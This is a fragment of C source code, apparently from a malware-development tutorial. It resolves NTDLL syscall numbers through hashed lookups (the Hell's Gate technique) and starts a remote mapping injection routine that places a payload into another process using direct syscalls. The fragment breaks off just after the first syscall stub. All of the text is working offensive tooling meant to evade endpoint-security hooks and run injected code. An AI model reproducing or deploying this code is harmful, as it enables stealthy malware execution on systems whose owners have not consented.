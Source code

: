 ```c
	PPEB pCurrentPeb = pCurrentTeb->ProcessEnvironmentBlock;
	if (!pCurrentPeb || !pCurrentTeb || pCurrentPeb->OSMajorVersion != 0xA)
		return FALSE;

	// Get NTDLL module 
	PLDR_DATA_TABLE_ENTRY pLdrDataEntry = (PLDR_DATA_TABLE_ENTRY)((PBYTE)pCurrentPeb->Ldr->InMemoryOrderModuleList.Flink->Flink - 0x10);

	// Get the EAT of NTDLL
	PIMAGE_EXPORT_DIRECTORY pImageExportDirectory = NULL;
	if (!GetImageExportDirectory(pLdrDataEntry->DllBase, &pImageExportDirectory) || pImageExportDirectory == NULL)
		return FALSE;

	g_Sys.NtCreateSection.uHash       = NtCreateSection_JOAA;
	g_Sys.NtMapViewOfSection.uHash    = NtMapViewOfSection_JOAA;
	g_Sys.NtUnmapViewOfSection.uHash  = NtUnmapViewOfSection_JOAA;
	g_Sys.NtClose.uHash               = NtClose_JOAA;
	g_Sys.NtCreateThreadEx.uHash      = NtCreateThreadEx_JOAA;
	g_Sys.NtWaitForSingleObject.uHash = NtWaitForSingleObject_JOAA;

	// initialize the syscalls
	if (!GetVxTableEntry(pLdrDataEntry->DllBase, pImageExportDirectory, &g_Sys.NtCreateSection))
		return FALSE;
	if (!GetVxTableEntry(pLdrDataEntry->DllBase, pImageExportDirectory, &g_Sys.NtMapViewOfSection))
		return FALSE;
	if (!GetVxTableEntry(pLdrDataEntry->DllBase, pImageExportDirectory, &g_Sys.NtUnmapViewOfSection))
		return FALSE;
	if (!GetVxTableEntry(pLdrDataEntry->DllBase, pImageExportDirectory, &g_Sys.NtClose))
		return FALSE;
	if (!GetVxTableEntry(pLdrDataEntry->DllBase, pImageExportDirectory, &g_Sys.NtCreateThreadEx))
		return FALSE;
	if (!GetVxTableEntry(pLdrDataEntry->DllBase, pImageExportDirectory, &g_Sys.NtWaitForSingleObject))
		return FALSE;



	return TRUE;
}

BOOL RemoteMappingInjectionViaSyscalls(IN HANDLE hProcess, IN PVOID pPayload, IN SIZE_T sPayloadSize, IN BOOL bLocal) {

        HANDLE          hSection          = NULL;
        HANDLE          hThread           = NULL;
        PVOID           pLocalAddress     = NULL,
                        pRemoteAddress    = NULL,
                        pExecAddress      = NULL;
        NTSTATUS        STATUS            = NULL;
        SIZE_T          sViewSize         = NULL;
        LARGE_INTEGER   MaximumSize       = {
              .HighPart = 0,
              .LowPart = sPayloadSize
        };

        DWORD           dwLocalFlag       = PAGE_READWRITE;

	//--------------------------------------------------------------------------
    // Allocating local map view 
	HellsGate(g_Sys.NtCreateSection.wSystemCall);
```
